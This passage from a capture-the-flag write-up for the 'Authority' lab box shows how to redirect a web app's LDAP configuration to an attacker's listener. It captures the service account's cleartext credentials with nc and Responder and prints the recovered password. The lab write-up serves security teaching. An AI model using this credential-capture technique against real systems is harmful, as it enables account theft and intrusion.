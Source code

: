 #### Configuration Editor

It also works to get into the Configuration Editor:

![image-20231127130156435](/img/image-20231127130156435.png)

There are tons of options here I can mess with. In the LDAP connection config, I get the same hostname, `authority.authority.htb`, as well as the svc\_ldap username:

![image-20231127130405797](/img/image-20231127130405797.png)

The creds used are stored, but not retrievable through the web GUI:

![image-20231127130505380](/img/image-20231127130505380.png)

### Capture LDAP Creds

There are some cached credentials stored. To recover them, I’ll edit the URL to point at me, using cleartext LDAP rather than LDAPS (and using the default LDAP port 389):

![image-20231127130706990](/img/image-20231127130706990.png)

I’ll listen with `nc` on 389 and click “Test LDAP Profile”:

```

oxdf@hacky$ nc -lnvp 389
Listening on 0.0.0.0 389
Connection received on 10.10.11.222 61956
0Y`T;CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htblDaP_1n_th3_cle4r!

```

The password is “lDaP\_1n\_th3\_cle4r!”, though it’s not trivial to see in that capture, as there are non-ASCII characters in this data that the terminal just drops. It’s easier to see in Wireshark:

![image-20231127131357051](/img/image-20231127131357051.png)

Authority is acting as the client trying to authenticate to my VM, and sends these creds in the clear. [Responder](https://github.com/lgandx/Responder) will also listen for and capture these creds:

```

[+] Listening for events...

[LDAP] Cleartext Client   : 10.10.11.222
[LDAP] Cleartext Username : CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htb
[LDAP] Cleartext Password : lDaP_1n_th3_cle4r!

```

### WinRM

Those creds work with the svc\_ldap account over both SMB and WinRM:
